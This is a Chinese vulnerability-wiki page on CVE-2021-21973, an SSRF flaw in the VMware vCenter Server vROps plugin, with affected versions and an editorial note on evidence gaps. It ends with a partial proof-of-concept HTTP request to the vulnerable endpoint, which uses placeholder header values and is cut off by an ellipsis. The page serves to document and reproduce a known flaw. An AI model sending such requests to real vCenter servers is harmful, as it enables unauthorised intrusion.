

## 2026-10-03 版本核验

版本字段原先截断于 6.5u，现按 CNA 的 vCenter Server 三条分支边界记录。原文完整 build 列表仍保留；Cloud Foundation 的单独产品范围不并入 vCenter Server。

# VMware vCenter Server 服务器端请求伪造漏洞 CVE-2021-21973

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version在6.5u处截断且漏Cloud Foundation
- 列表混版本号和更新分支应核厂商矩阵
- vcIP值SSRF是占位非完整PoC，vaPassword可能拼错需核原图/源码
- 省略号请求不完整，缺明确修复版本

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

参考链接：

* https://kb.vmware.com/s/article/82374
* https://twitter.com/osama_hroot/status/1365586206982082560

## 漏洞影响

```
vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
Cloud Foundation: before 3.10.1.2, 4.2
```

## 漏洞复现

poc：

```http
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
HOST:
vcIP: SSRF
vcUsername:sa
vaPassword:sa
reqResource:sa
...
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
